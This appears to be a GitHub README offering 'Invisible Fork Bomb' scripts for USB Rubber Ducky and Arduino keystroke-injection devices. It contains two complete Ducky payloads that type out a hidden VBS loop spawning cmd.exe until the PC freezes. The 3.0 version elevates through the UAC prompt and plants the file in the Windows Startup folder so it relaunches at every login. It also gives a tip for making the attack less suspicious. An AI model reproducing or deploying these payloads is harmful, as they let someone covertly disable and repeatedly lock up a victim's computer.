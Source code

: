 # Invisible Fork Bomb for Arduino and Ducky
**V. 2.0:** The script creates and starts a vbs that executes exponentially cmd.exe without visible windows (Fork bomb -> Freezes the PC).

**V. 3.0:** The same, but it adds the vbs to the startup folder.

**Author:** BlueArduino20

# Code for Ducky (2.0)

<pre><code>DELAY 1000
REM ^ You should set more delay time if your computer is slow or if the script doesn't work correctly.
GUI r
DELAY 500
STRING cmd
ENTER
DELAY 500
STRING copy con forkb.vbs
ENTER
STRING do
ENTER
STRING CreateObject("Wscript.Shell").Run "cmd", 0, False
ENTER
STRING loop
CTRL z
ENTER
DELAY 50
STRING start forkb.vbs && exit
REM You can add this: ">null ping localhost -n 5 && " before "start" to make a (5 sec) delay before the vbs execution. (By this way it's less suspicious)
ENTER
</pre></code>

# Code for Ducky (V. 3.0) (It adds the file to the startup)

<pre><code>DELAY 1000
REM ^ You should set more delay time if your computer is slow or if the script doesn't work correctly.
CTRL ESC
DELAY 500
STRING cmd
CTRL SHIFT ENTER
DELAY 400
ALT y
REM ^ UAC Bypass
DELAY 500
STRING copy con "%userprofile%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\FB.vbs"
REM ^ Setup the .vbs on startup folder
ENTER
STRING do
ENTER
STRING CreateObject("Wscript.Shell").Run "cmd", 0, False
ENTER
STRING loop
CTRL z
ENTER
DELAY 50
STRING start FB.vbs && exit
ENTER
</pre></code>

# Code for Arduino

<a href="https://github.com/BlueArduino20/Invisible_fork_bomb/blob/master/Invisible_fork_bomb_2.0.ino">Invisible_fork_bomb_2.0.ino<a>

# Code for Arduino (V. 3.0) (It adds the file to the startup)

<a href="https://github.com/BlueArduino20/Invisible_fork_bomb/blob/master/Invisible_fork_bomb_3.0.ino">Invisible_fork_bomb_3.0.ino<a>

